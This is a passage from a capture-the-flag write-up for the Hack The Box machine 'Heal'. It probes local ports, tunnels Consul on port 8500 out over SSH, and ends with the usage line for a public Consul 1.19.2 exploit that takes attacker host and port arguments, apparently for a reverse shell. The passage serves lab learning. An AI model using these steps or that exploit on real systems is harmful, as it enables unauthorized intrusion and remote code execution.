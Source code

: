 Checking around, I found something interesting on port 8500.

```zsh
ron@heal:~$ ss -tlnp
ron@heal:~$ curl 127.0.0.1:3001
ron@heal:~$ curl 127.0.0.1:8302
curl: (1) Received HTTP/0.9 when not allowed
ron@heal:~$ curl 127.0.0.1:8300
curl: (56) Recv failure: Connection reset by peer
ron@heal:~$ curl 127.0.0.1:8301
curl: (1) Received HTTP/0.9 when not allowed
ron@heal:~$ curl 127.0.0.1:8503
curl: (52) Empty reply from server
ron@heal:~$ curl 127.0.0.1:8500
<a href="/ui/">Moved Permanently</a>.

ron@heal:~$ curl 127.0.0.1:8600
curl: (52) Empty reply from server
ron@heal:~$ curl 127.0.0.1:5432
curl: (52) Empty reply from server
```

Forward it to my machine:

```zsh
❯ ssh -L 8500:localhost:8500 ron@heal.htb
```

Check to see if there is anything exploitable. Found that this is `Consul v1.19.2`

![14.png](Heal/images/14.png)

### <span style="color: #3498eb;">Exploit </span>

After some searching, this exploit is still available in version 1.19.2.
`https://www.exploit-db.com/exploits/51117`
 ```zsh 
python3 exploit.py <rhost> <rport> <lhost> <lport> <acl_token>
```
